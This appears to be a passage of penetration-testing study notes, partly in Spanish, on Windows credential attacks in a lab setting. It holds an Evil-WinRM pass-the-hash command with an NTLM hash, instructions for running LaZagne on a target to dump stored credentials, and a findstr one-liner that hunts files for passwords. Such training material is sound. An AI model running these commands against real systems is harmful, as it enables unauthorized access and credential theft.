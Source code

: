 #### Pass-the-Hash with Evil-WinRM Example

```c
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

# Credential Hunting in Windows

## Lazagne All

Podemos aprovechar herramientas de terceros como [Lazagne](https://github.com/AlessandroZ/LaZagne) para descubrir rápidamente las credenciales que los navegadores web u otras aplicaciones instaladas pueden almacenar de forma insegura. Sería beneficioso mantener una [copia independiente](https://github.com/AlessandroZ/LaZagne/releases/) de Lazagne en nuestro host de ataque para que podamos transferirla rápidamente al objetivo. `Lazagne.exe`funcionará perfectamente para nosotros en este escenario.

```c
C:\Users\bob\Desktop> start lazagne.exe all
```

## Using findstr

```c
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
